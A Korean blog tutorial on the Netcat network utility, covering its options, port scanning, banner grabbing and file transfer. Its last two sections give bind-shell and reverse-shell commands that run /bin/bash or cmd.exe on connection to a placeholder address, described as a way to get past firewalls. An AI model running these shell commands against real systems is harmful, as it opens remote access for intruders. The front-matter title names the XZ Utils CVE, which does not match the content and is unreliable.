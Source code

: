 ```yaml
---
layout: post
title: "XZ Utils 공급망 취약점 (CVE-2024-3094)"
tags: [정보보안, 툴]
comments: true
---
```


Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임

![image](https://github.com/what0302/what0302.github.io/assets/18510716/8435fd52-6470-4f27-b877-4444db4f6420)

##### 출처 링크: [KOROMOON][KOROMOONlink]
[KOROMOONlink]: https://koromoon.blogspot.com/2018/01/netcat.html "Go KOROMOON"

## (1) 설명

Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임.<br><br>
일반적으로 UNIX 의 cat 명령어와 비슷한 사용법을 가지고 잇지만 cat 명령어를 통해 파일에 쓰거나 읽듯이 Netcat 툴은 네트워크에 읽거나 쓸 수 있음.<br><br>
이것은 스크립트와 병용하여 네트워크에 대한 디버깅, 테스트 툴로써 매우 편리하고 원하는 포트로 원하는 데이터를 주고 받을 수 있는 특징 때문에 악의적으로 사용할 수 있음.<br><br>
또한, 컴퓨터 포렌식에 있어서 라이브 시스템의 데이터를 손상없이 가져오기 위해서도 사용될 수 있음.<br>
원하는 거의 모든 종류의 접속 형태를 만들어 낼 수 있고 흥미로운 몇 가지 내장 기능을 가지고 있기 때문에 다기능의 네트워크 문제해결 및 조사 시에 유용하게 사용 가능함.<br><br>

윈도우 다운로드 : http://eternallybored.org/misc/netcat/<br>
리눅스 다운로드 : https://sourceforge.net/projects/nc110/<br><br>

참고로 SANS 에서 제공하는 Netcat Cheat Sheet 파일은 아래 링크에서 다운받으세요.<br>
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf<br><br><br>

## (2) 사용법
</br><div align="center">![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/3c135ca7-33d8-4e69-8203-e7da33b4347c)</div><br>
<br>
※ 아래 옵션은 netcat-win32-1.12 버전을 기준으로 정리함.<br><br>

어딘가에 연결 시 : `nc [-options] hostname port[s] [ports] ...`<br>
인바운드 수신 대기 시 : `nc -l -p port [options] [hostname] [port]`<br><br>

옵션 :<br><br>
<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody><tr>
  <td style="border: 1pt solid windowtext; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt; width: 461.2pt;" valign="top" width="615">
  <p align="left" class="MsoNoSpacing"><i><span lang="EN-US"><span style="font-family: courier;">
        -d              콘솔에서 분리되어 백그라운드 모드로 실행<br>
        -e prog         커넥션(Connection)이 이루어졌을 때 후 프로그램을 실행함 (위험!)<br>
        -g gateway      source-routing hop point[s]를 8씩 증가<br>
        -G num          source-routing point를 4, 8, 12 .. 4씩 증가<br>
        -h              도움말<br>
        -i secs         스캔된 포트로 전송된 회선의 지연 간격<br>
        -l              인바운드 커넥션을 위해서 listen 모드로 실행<br>
        -L              소켓 종료 시 재전송 실행<br>
        -n              IP 주소 입력 (DNS 을 사용하지 않음)<br>
        -o file         주고받은 데이터를 헥스 덤프(Hex Dump)하여 파일로 저장함<br>
        -p port         로컬 포트를 지정함<br>
        -r              로컬 이나 원격 포트를 임의로 지정함<br>
        -s addr         로컬 출발지 주소를 지정함<br>
        -t              Telnet 과 같은 협상 과정을 거치도록 설정함<br>
        -c              LF 대신 CRLF 를 보냄<br>
        -u              UDP 모드<br>
        -v              자세한 설명 모드 (더 자세한 정보를 표시하기 위해 두 번 사용)<br>
        -w secs         마지막으로 읽고 난 후 종료할 시간을 정함<br>
        -z              zero-I/O 모드 (스캔 시 사용)<o:p></o:p></span></span></i></p>
  </td>
 </tr>
</tbody></table><br>

참고로 포트 범위는 개별 또는 범위(m-n)일 수 있음.<br><br><br>

## (3) 사용 예
1. 특정 포트에 대한 연결 수립<br><br>
원격 IP 의 특정 포트로 연결하여 Open 되어 있는 여부를 확인함.<br><br>
`nc [IP] [Port]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj26vMovg5synzLGTccviKy3Bh7Fwr9vyJpIEcvNV3O3P_0DR1nvyOh7SbB6BHb0eiqnaYrzV5_Vo75s2gjgF2CPFcuClNe8JDaIMEqh8GzYhAVdkQoOIJ2BwHIjcJMrLlP1UCYigKdAOE/s1600/%25ED%258A%25B9%25EC%25A0%2595+%25ED%258F%25AC%25ED%258A%25B8%25EC%2597%2590+%25EB%258C%2580%25ED%2595%259C+%25EC%2597%25B0%25EA%25B2%25B0+%25EC%2588%2598%25EB%25A6%25BD.png"></div><br><br>

2. 서비스 배너 수집<br><br>
다양한 서비스를 대상으로 그대로 사용할 수 있음.<br>
하지만 HTTP 서비스는 HTTP 헤더 양식을 전송해줘야 함.<br><br>
`echo -e "HEAD / HTTP/1.0\n\n" | nc [IP] 80`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgoaWHzRs5Eysrtj7MwxJwG93oiVnlK0lhMfsw458wNV7xJYfmxaXrF4mYtIJa-S3t6HVqeSGTxlGrjFngRQHSYpugvkM1nkyIBDjfsZwvRPJxWPNmBe3h70eUUK9qlR8mfkzHGiNtpOzQ/s1600/%25EC%2584%259C%25EB%25B9%2584%25EC%258A%25A4+%25EB%25B0%25B0%25EB%2584%2588+%25EC%2588%2598%25EC%25A7%2591.png"></div><br><br>

3. 포트 스캐닝<br><br>
TCP 프로토콜을 사용하여 특정 포트나 포트 범위를 스캔함.<br><br>
`nc -n -v -z -w 1 [IP] [포트 범위]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh13c9lcWxw5TwLBJpjyNLUm_NZ3zAsQujCfqBInGQ77S6RUAJ5DL5lzdX37VcE_8vbXM0Ux9quTZPYrTjypVuipPBIiaHJcl7cBBkknPy6ikZF1FYbGhW6EZh2m5FDpTQ_PUZ_ut1jwxc/s1600/%25ED%258F%25AC%25ED%258A%25B8+%25EC%258A%25A4%25EC%25BA%2590%25EB%258B%259D.png"></div><br><br>

4. 파일 전송<br><br>
클라이언트(윈도우) -> 서버(Kali Linux)로 파일 전송<br><br>
클라이언트<br>
`nc -w3 [IP] [Port] < [파일명]`<br><br>
서버<br>
`nc -l -p [Port] > [파일명]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhLJghqkvJi7EEYkN5gOMcpHOrLAssBsvMkaFseVbjUZ26uWPYWigxTUkSpL_d-qDlSow1hVAbyeoPkAOwBYLI3MS_Orkt2YY6K1u9fsnUeuI1sjW0aTab7uavss0mjGbiAAaZgcuNqs9Y/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_1.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhesAfNu5IJ2nouAur7moiNTHJ-NOV99AZq0ScVga1EFcziWg7qjVBuvRycwNYQPLW3NHvxT-McO7iDvJXYUtvqK5Xlni5ZMjG3pujhXPey6-JA_GrJOqfUq2rKIVCTI18j1eYIKashfuM/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_2.png"></div><br><br>

5. 백도어 쉘 (Backdoor Shell)<br><br>
Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 특정 포트(-p)에서 listen 모드(-l)로 실행하여 연결 수립 시 특정 쉘을 실행(-e)하도록 옵션을 지정하는 방식임.<br><br>

리눅스 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhBdx0Kzn5FlS4vy-O59_HtqxLVa1amIMhFdxbKwmRBLxk_HUM-LPMLg6asSVyahZohOVEMXvrNGzvjSY0osxM9mJOwuSfXV2Ck_u8AcP4XqCydi61KwSpbA8CAyPt8xx7_e_7x1OHXt0U/s1600/Backdoor+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSZei4HxKQGGb3QYa8gsdrbxiTfBQp15VwdjTCm0jfB2U2xEm3E70xUFhmq4tmR4BclG12RoUtChqnRztb-o6iqerwGEVeFL99ZTZoB9R2Mvbs1z4xA2pDatgcHElAgdSsbyafrpimIRw/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B81.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhJ9VfZoyrHFHhQ4ldYU6bQfgrH8yPhikT1dCuZSx_Oi9giWq-mohcOVc_WjqC46L_vlEJO_ikY1NLBYquwb9pR1E1zNDUAmJsumn9Q_8wa71aRwDqaYxLCpv3FfFCSAjVnDblt6_c-Dt8/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B82.png"></div><br>
위 스샷에서 서버(Kali Linux) 측 쉘에 접속 후 명령어 뒤에 세미콜론 문자(;)를 덧붙여야 함.<br>
(사용하는 클라이언트 마다 다를 수 있음)<br><br>

6. 리버스 쉘 (Reverse Shell)<br><br>

**Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 백도어 쉘과는 반대로 보통 서버 앞단에 방화벽을 우회하기 위해서 리버스 쉘을 이용함.**<br>
**방화벽에서 허용된 나가는 포트를 이용하여 클라이언트 측에서 쉘을 실행시킨 후 서버 측에서 접속함.**<br><br>

리눅스 환경(서버)에서 리버스 쉘<br>
`nc [자신의 IP 주소] [포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 리버스 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
`nc [자신의 IP 주소] [포트] -e cmd.exe`<br>

<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjQWHXV2Sba-_p1a2eB8zqbCVgQqAaJ-aakB2RXHV05B8I5LH3zkcIdkmRvxFy9QyqSSzzSo51nKxzc_Y1Yiv1OCaR6kd6H-8zVXYHyACv0Bwx7TSVirNYVyC6tbfCSndhpXyRI8ys7-3M/s1600/Reverse+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgILlZyiTOyqIOo5Gchyphenhyphen5sn1Ypk0XQImvPwJXuZrrCA_Kt0TiyL3tUHnGclcnSH5-Un9W5DhwrzuIr-H6k6lnpD-PmHOP80Y6bl4sny7yyx6yEUxVGKL5elIWNmSDI5UqHXT9RSVTLAjn8/s1600/Reverse+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8.png"></div><br>

